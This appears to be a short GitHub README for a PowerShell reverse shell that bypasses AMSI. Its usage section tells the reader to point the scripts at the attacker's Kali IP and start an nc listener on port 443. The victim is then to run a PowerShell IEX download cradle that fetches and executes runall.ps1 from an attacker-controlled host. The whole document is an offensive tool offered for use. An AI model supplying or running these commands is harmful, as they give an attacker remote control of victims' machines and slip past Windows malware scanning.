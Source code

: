 # Name
Simple PS Reverse Shell with AMSI Bypass

## Usage
```
Change Line 1 in runall.ps1 to Kali's IP

Change IP and port in simple_ps_revshell.ps1 to attacker's IP and port

Start nc listener
    nc -lvp 443

In victim's cmd shell
    powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')
```

## Source
https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
